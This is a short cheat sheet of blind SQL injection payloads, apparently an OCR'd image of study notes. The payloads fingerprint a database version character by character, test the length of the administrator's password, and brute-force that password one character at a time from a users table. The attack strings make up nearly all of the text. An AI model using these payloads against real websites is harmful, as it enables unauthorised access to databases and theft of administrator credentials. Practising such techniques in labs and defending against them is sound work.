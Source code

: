 	and substring((select version()), 1, 1) = '8')
	and substring((select version()), 1, 2) = '8.')
	and substring((select version()), 1, 3) = '8.1')
	and substring((select version()), 1, 4) = '8.1.')
	and substring((select version()), 1, 5) = '8.1.2')

Length of password

	AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

Brute-force password

	AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
	AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) > 'm
	